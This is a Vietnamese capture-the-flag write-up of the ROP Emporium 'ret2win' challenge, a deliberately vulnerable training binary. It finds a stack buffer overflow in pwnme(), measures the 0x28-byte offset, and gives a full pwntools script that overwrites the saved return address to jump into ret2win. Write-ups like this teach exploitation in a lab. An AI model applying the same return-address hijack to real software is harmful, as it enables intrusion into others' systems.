





# ROP_Emporium - ret2win

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Ở đây chỉ có 2 hàm thú vị:

Hàm pwnme()


Và hàm ret2win()



Ở hàm pwnme() ta có thể thấy tại dòng thứ 10 cho phép ghi 0x38 ký tự vào biến **s** nhưng biến **s** chỉ được khai báo 0x20 bytes --> **Buffer Overflow**

# 2. Ý tưởng

Như tên đề bài là return to win. Vậy ta chỉ việc overwrite saved rip ở trong pwnme thành địa chỉ hàm win.

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:



Bởi vì địa chỉ của **return address** lớn hơn địa chỉ **biến nhập vào** 0x28 vì vậy ta chỉ việc tạo script để ghi đè saved rip thành địa chỉ hàm ret2win():



Nhìn vào RSP không chia hết cho 0x10 nên chương trình bị lỗi khi chạy



Ta sẽ bỏ qua phần printf để nhảy đến **[ret2win + 14]**


Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./ret2win', checksec=False)

p = process("./ret2win")

#gdb.attach(p, gdbscript='''''')

payload = flat(
    cyclic(0x28),
    elf.sym['ret2win']+14
    )
p.sendlineafter(b">",payload)
p.interactive()

```

# 4. Lấy flag




